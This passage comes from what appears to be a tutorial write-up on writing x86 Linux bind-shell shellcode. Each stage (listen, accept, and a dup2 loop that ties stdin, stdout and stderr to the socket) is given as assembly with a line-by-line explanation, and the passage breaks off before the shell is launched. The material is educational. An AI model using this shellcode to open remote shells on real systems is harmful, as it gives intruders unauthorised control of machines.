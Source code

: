     push esi ; int sockfd
    mov ecx, esp ; store argument address in ecx

    int 0x80 ; sys_socketcall

#### Listen

Nothing exciting happened here, I moved 0x66 into EAX for sys_socketcall and 0x4 into SYS_LISTEN for the function call. 

    listen:

    mov al, 0x66 ; 102 sys_socketcall
    mov bl, 0x4 ; 0x4 - SYS_LISTEN
    pop edx ; fetch sockfd from stack

    int 0x80 ; sys_socketcall

#### Accept

SYS_ACCEPT requires a similar argument like SYS_BIND, but as we are accepting connections from anyone, I had a much easier time setting this up. I XOR'd EAX and pushed it's 0x00 value on the stack twice, first for the addrlen and then for sockaddr. After that I set up the interrupt for the syscall: 0x66 -> EAX, 0x5 -> EBX. The file descriptor is required for the function call so I pushed it on the stack and initiated the interrupt.

    accept:

    xor eax, eax ; null out eax so we can push nulls
    push eax ; socklen_t *addrlen => null
    push eax ; sockaddr *addr => null

    mov al, 0x66 ; 102 sys_socketcall
    mov bl, 0x5 ; 0x5 SYS_ACCEPT

    push edx ; push sockfd to stack for accept()
    mov ecx, esp ; store argument address in ecx
    int 0x80 ; sys_socketcall

#### Duplicate

In this section of the shellcode we bind together stdin, stdout, stderr and the socket file descriptor. I first swapped out EAX and EBX, so EBX points to the file descriptor. After that I zeroed out ECX as a start value for the loop.

    duplicate:        
    xchg eax, ebx ; move fdescriptor from accept into ebx for oldfd
    xor ecx, ecx ; zero out ecx for counter

The loop portion of the code moves 0x3f into EAX, calls the interrupt, increments ECX (loop counter), compares ECX with 0x3 and jumps back to the start of the loop if ECX is not equal to 3. What this means in practice is that it calls the dup2 system call on our socket with stdin, stdout and stderr.

    dup2:
    mov al, 0x3f ; int dup2 - 63 in hex
    int 0x80 ; dup2 syscall
    inc cl ; increment loop register
    cmp ecx, 0x3 ; compare ecx 0x3 
    jne dup2 ; if ecx != 3 continue looping
